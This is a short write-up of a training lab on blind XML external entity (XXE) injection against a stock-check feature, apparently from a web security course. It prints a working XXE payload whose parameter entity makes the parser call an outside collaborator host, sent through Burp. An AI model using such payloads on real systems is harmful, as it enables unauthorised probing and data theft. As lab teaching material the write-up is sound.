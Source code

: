 ### Lab: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

_____

Analysis and Exploit:

1. Intercept the request via **[BURP-PROXY]** in **/product/stock**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <stockCheck><productId>1</productId>
    <storeId>1</storeId></stockCheck>
    ```
2. Create the payload and send it via **[BURP-REPEATER]**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE jito [ <!ENTITY % xxe SYSTEM "http://xxe.burpcollaborator.net"> %xxe; ]>
    <stockCheck><productId>1</productId>
    <storeId>1</storeId></stockCheck>
    ```

_____

Script:

1. Send payload | POST **/product/stock** | params: 'xml payload'
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE jito [ <!ENTITY % xxe SYSTEM "http://xxe.burpcollaborator.net"> %xxe; ]>
    <stockCheck><productId>1</productId>
    <storeId>1</storeId></stockCheck>
    ```
    - if "XML parsing error" not in response and status code != 400: error/stops